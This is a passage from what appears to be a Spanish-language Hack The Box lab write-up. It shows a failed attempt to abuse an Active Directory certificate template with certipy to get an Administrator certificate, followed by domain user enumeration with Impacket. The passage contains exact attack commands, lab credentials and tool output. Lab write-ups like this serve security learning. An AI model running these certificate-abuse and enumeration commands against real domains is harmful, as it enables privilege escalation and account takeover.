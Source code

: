 ~~~ bash
Template Name                       : SignedUser
    Display Name                        : Signed User
    Certificate Authorities             : Certificate-LTD-CA
    Enabled                             : True
    Client Authentication               : True
    ...
    ...
    Extended Key Usage                  : Client Authentication
    ...
    ...
~~~

### (Failed) Certificate for `Administrator`

Si intentaremos solicitar un certificado para el usuario `Administrator` utilizando la plantilla `SignedUser`, nos saldrá un mensaje de error

~~~ bash
certipy req -u 'lion.sk@certificate.htb' -p '!QAZ2wsx' -ca Certificate-LTD-CA -template SignedUser -pfx lion.sk.pfx -dc-ip 10.10.11.71 -on-behalf-of 'CERTIFICATE\Administrator'

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 23
[-] Got error while requesting certificate: code: 0x80094812 - CERTSRV_E_SUBJECT_EMAIL_REQUIRED - The email name is unavailable and cannot be added to the Subject or Subject Alternate name.
~~~

Esto se debe a que la plantilla posee ciertos requerimientos, como que el usuario tenga asignado un `Email Subject`

~~~ bash
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectAltRequireEmail
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
~~~

La cuenta de `Administrator` no cumple con este requerimiento, podemos consultar rápidamente utilizando la herramienta `GetADUsers.py`

~~~ bash
GetADUsers.py certificate.htb/Lion.SK:'!QAZ2wsx' -all

Impacket v0.13.0.dev0+20250109.91705.ac02e0ee - Copyright Fortra, LLC and its affiliated companies 

[*] Querying certificate.htb for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2025-04-28 17:33:46.958071  2025-10-05 04:17:35.129682 
Guest                                                 <never>              <never>             
krbtgt                                                2024-11-03 04:24:32.914665  <never>             
Kai.X                 kai.x@certificate.htb           2024-11-03 19:18:06.346088  2024-11-24 01:36:30.608468 
Sara.B                sara.b@certificate.htb          2024-11-03 21:01:09.188915  2024-12-27 01:01:28.460147 
John.C                john.c@certificate.htb          2024-11-03 21:16:41.190022  <never>             
Aya.W                 aya.w@certificate.htb           2024-11-03 21:17:43.642034  <never>             
Nya.S                 nya.s@certificate.htb           2024-11-03 21:18:53.829718  <never>             
~~~